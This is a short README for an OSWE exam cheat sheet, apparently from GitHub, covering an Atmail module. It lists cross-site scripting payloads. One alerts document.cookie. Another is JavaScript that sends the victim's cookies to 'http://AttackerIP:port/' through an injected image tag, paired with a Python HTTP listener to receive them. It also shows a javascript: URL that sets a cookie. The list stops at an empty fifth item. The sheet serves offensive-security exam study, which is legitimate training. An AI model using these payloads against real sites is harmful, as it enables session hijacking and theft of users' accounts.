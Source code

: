 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module Atmail :

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console
    #javascript:void(document.cookie="cookiename=value");
 
5. 
    
    
